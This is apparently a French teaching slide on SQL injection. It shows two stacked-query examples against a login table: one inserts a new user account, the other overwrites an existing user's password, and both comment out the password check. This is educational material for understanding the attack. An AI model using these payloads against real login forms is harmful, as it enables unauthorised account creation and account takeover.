

10
Injection SQL

D'autres requêtes sont possibles :

SELECT * FROM `login` WHERE `user`=‘’; INSERT INTO `login` ('user','pass') VALUES (‘Med',‘112233');--’ AND `pass`=‘’
SELECT * FROM `login` WHERE `user`=‘’; UPDATE `login` SET `pass`=‘pass123’ WHERE `user`=‘Med’;--’ AND `pass`=‘’